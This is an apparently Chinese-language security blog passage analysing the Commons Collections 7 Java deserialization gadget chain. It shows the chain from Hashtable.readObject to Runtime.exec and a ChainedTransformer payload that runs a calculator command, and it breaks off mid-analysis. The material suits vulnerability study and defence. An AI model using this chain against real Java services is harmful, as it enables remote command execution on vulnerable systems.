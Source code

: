 # [Java安全] CommonsCollections7链分析




# gadget

```java
Gadget chain:
    Hashtable.readObject
        Hashtable.reconstitutionPut
            AbstractMapDecorator.equals
                AbstractMap.equals
									LazyMap.get()
                    ChainedTransformer.transform()
                      ConstantTransformer.transform()
                      InvokerTransformer.transform()
                        Method.invoke()
                          Class.getMethod()
                      InvokerTransformer.transform()
                        Method.invoke()
                          Runtime.getRuntime()
                      InvokerTransformer.transform()
                        Method.invoke()
                          Runtime.exec()
```

# 利用链分析

CC7的关键点是利用到AbstractMap的equals方法去触发到LazyMap的get方法进而触发transform方法进入利用链

和CC1一样构造`ChainedTransformer`来执行命令

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new String[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator" }),
                new ConstantTransformer(1)
        };
```

然后去跟进利用链里，先看Hashtable的readobject，调用了`reconstitutionPut`
